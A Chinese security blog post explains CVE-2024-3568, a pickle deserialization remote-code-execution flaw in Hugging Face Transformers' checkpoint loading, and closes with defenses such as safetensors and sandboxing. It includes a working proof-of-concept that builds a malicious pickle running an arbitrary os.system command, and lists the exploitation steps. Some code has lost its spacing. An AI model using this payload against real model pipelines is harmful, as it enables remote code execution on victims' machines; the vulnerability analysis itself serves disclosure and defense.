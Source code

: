 #  大模型的反序列化导致的RCE漏洞   
sule01u  黑伞安全   2024-12-05 10:04  
  
# 大模型的反序列化导致的RCE漏洞  
> 话说最近字节实习生通过编写、篡改代码等形式恶意攻击团队研究项目模型训练任务的事闹的沸沸扬扬，那气氛都到这了，我们来聊聊大模型的rce漏洞吧  
  
## 引言  
  
这可以从今年的CVE-2024-3568开始聊聊， CVE-2024-3568是Huggingface的Transformers库中存在的一个反序列化漏洞，影响版本为4.38.0及之前的版本。该漏洞源于TFPreTrainedModel类的load_repo_checkpoint()函数在加载检查点时，使用了Python的pickle模块反序列化不受信任的数据，导致攻击者可以通过构造恶意的序列化有效载荷，实现任意代码执行。  
  
**所以呢**  
  
展开人话就是：攻击者可以创建一个包含恶意extra_data.pickle文件的检查点目录。当受害者在模型训练过程中加载该检查点时，pickle.load()函数会反序列化extra_data.pickle文件，触发其中的恶意代码，从而在受害者的机器上执行任意指令。  
  
**我不信，你演示一下**  
  
OK, 来梳理一遍漏洞出发流程 ⬇️  
## CVE-2024-3568 漏洞触发流程  
  
**功能背景：模型检查点加载**  
- • 在机器学习中，检查点Checkpoint用于保存模型训练的中间状态，以便随时恢复训练或进行推理。  
  
- • Transformers 库的 TFPreTrainedModel 类提供了 load_repo_checkpoint() 方法，用于从一个目录中加载检查点数据。  
  
- • 该方法使用 Python 的 pickle 模块来反序列化检查点的附加数据文件 extra_data.pickle。  
  
**核心问题：直接反序列化用户提供的文件**  
- • pickle 是 Python 的一个用于序列化和反序列化 Python 对象, pickle 的反序列化过程会执行序列化对象中的任意代码。  
  
- • 在 load_repo_checkpoint() 中，直接使用了 pickle.load() 方法来加载用户提供的 extra_data.pickle 文件。  
  
- • 如果攻击者能够控制检查点目录的内容，就可以将恶意代码嵌入到 extra_data.pickle 文件中造成反序列化。  
  
**示例代码如下**  
- • 模拟受害者加载恶意的checkpoint  
  
```
from tensorflow.keras.optimizers import Adam
from transformers import TFAutoModel

# 加载一个正常的模型
model = TFAutoModel.from_pretrained('bert-base-uncased')
model.compile(optimizer=Adam(learning_rate=5e-5), loss='sparse_categorical_crossentropy', metrics=['accuracy'])

# 把参数修改为checkpoint所在的路径
model.load_repo_checkpoint('rce-checkpoint')
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apmYTPAKhlXjfQHYK6YlZsG25iaibADeqwm09dXEfgD5ZXEsDGhBKcQRSib8vfdhfgBF8MUibFvYneRiaRhj3WAOibRw/640?wx_fmt=png&from=appmsg "null")  
- • 我们继续跟进上面的load_repo_checkpoint函数  
  
```
def load_repo_checkpoint(self, repo_path_or_name):
ifgetattr(self,"optimizer",None)isNone:
raiseRuntimeError(
"Checkpoint loading failed as no optimizer is attached to the model. "
"This is most likely caused by the model not being compiled."
)
if os.path.isdir(repo_path_or_name):
        local_dir = repo_path_or_name
else:
        repo_files = list_repo_files(repo_path_or_name)
for file in("checkpoint/weights.h5","checkpoint/extra_data.pickle"):
if file notin repo_files:
raiseFileNotFoundError(f"Repo {repo_path_or_name} does not contain checkpoint file {file}!")
        repo =Repository(repo_path_or_name.split("/")[-1], clone_from=repo_path_or_name)
        local_dir = repo.local_dir

# 确保仓库中确实存在检查点
    checkpoint_dir = os.path.join(local_dir,"checkpoint")
    weights_file = os.path.join(checkpoint_dir,"weights.h5")
ifnot os.path.isfile(weights_file):
raiseFileNotFoundError(f"Could not find checkpoint file weights.h5 in repo {repo_path_or_name}!")
    extra_data_file = os.path.join(checkpoint_dir,"extra_data.pickle")
ifnot os.path.isfile(extra_data_file):
raiseFileNotFoundError(f"Could not find checkpoint file extra_data.pickle in repo {repo_path_or_name}!")

# ----重点在这里：加载模型的权重和优化器状态-----
    self.load_weights(weights_file)
withopen(extra_data_file,"rb")as f:
        extra_data = pickle.load(f)# ！！！pickle.load()
    self.optimizer.set_weights(extra_data["optimizer_state"])

return{"epoch": extra_data["epoch"]}
```  
  
现在真相大白了，读取了extra_data.pickle文件并反序列化  
  
那我们下一个问题是：extra_data.pickle文件里面是啥？  
  
让我们看看extra_data.pickle文件是怎么生成的 ⬇️  
```
def generate_extra_data_pickle(filepath, command):
classCommandExecute:
def__reduce__(self):
return os.system,(command,)

    poc =CommandExecute()
withopen(filepath,'wb')as fp:
        pickle.dump(poc, fp)
```  
  
根据poc代码可知：在 pickle.load(f) 反序列化时，__reduce__ 会被调用，return os.system, (command,) 会导致指定的命令 command 被执行。（反弹shell拿权限啦 - _ -  
  
**所以顺下来，漏洞利用过程就是：**  
1. 1. 攻击者使用上面的 generate_extra_data_pickle  函数生成包含恶意命令的extra_data.pickle 文件。  
  
1. 2. 将该文件放入目标仓库或本地文件路径。  
  
1. 3. 受害者运行 load_repo_checkpoint 并加载恶意文件。  
  
1. 4. pickle.load(f) 执行反序列化，触发 __reduce__，执行其中的恶意命令。  
  
## 扩展总结  
  
以 transformers 库为例，已经发现了多起相关的安全漏洞：  
- • CVE-2024-3568：该漏洞影响 transformers 库版本低于 4.38.0，主要利用 TFAutoModel 的反序列化过程触发恶意代码执行。  
  
- • CVE-2023-7018：影响版本低于 4.36.0 的 transformers 库，tokenizer 解析存在类似的反序列化漏洞。  
  
- • CVE-2023-6730：涉及 RagRetriever.from_pretrained 方法，影响版本同样是低于 4.36.0。  
  
这些漏洞的存在，意味着**如果攻击者能够控制模型文件内容 并且 模型文件被受害者使用了**，便可通过反序列化行为，在模型加载的瞬间就可以触发恶意代码执行。  
  
不过大模型时代，自己从头训模型对大多数人来说是不现实的，重点可能需要放在加载预训练权重的时候怎么避免**权重文件被植入恶意代码的风险上**  
## 如何防御 -> safetensors  
  
safetensors 是 Hugging Face 推出的一个专门存储模型权重的文件格式，主要目标是**安全性**和**高效性**。  
  
**为什么安全：**  
- • **只存储张量数据**：safetensors 仅存储模型的张量（weights），不包含任何其他 Python 对象。  
  
- • **无需解释器解析**：文件的解析完全由 Rust 或其他安全语言实现，而非依赖 Python 的动态解释器（如 pickle）。  
  
- • **防止任意代码执行**：由于文件格式不支持代码对象，攻击者无法在文件中注入恶意代码。  
  
**其他措施：**  
- • 加载前验证文件完整性（如哈希校验或签名验证）。  
  
- • 避免加载未验证来源的模型文件。  
  
- • 限制加载模型的运行环境（如沙盒或虚拟环境）  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/apmYTPAKhlXjfQHYK6YlZsG25iaibADeqwfXbGtBib3Q6NnzdDDjw1cMBY1HAibcc0yFnO0gcTN36eFBBKvOUlKydw/640?wx_fmt=gif&from=appmsg "")  
  
  
**欢迎关注不懂安全⬇️**  
  
  
  
如果你是一个长期主义者，欢迎加入我的知识星球,我们一起冲，一起学。每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZS0VQrDMfGpP42WfBo5hTxoaTEtBuXQeLUWtmGfA1ic3HbXgu686nVcRvSeiaVWmboVVkiaM9MrVY19LZ9x3e6low/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
